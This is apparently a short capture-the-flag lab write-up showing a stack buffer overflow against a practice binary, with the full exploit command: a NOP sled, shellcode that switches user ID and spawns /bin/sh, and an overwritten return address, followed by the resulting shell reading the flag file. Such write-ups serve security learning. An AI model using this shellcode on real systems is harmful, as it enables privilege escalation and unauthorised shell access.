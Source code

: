```
[user1@ip-10-10-2-237 overflow-4]$ ./buffer-overflow-2 $(python2 -c "print '\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x78\xe2\xff\xff\xff\x7f'")
new word is doggo������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1��������������������x����
sh-4.2$ whoami
user3
sh-4.2$ cat secret.txt
wowanothertime!!

yep finally do it!

```
Use the same method to read the contents of the secret file!
*wowanothertime!!*


[[Phishing Emails 4]]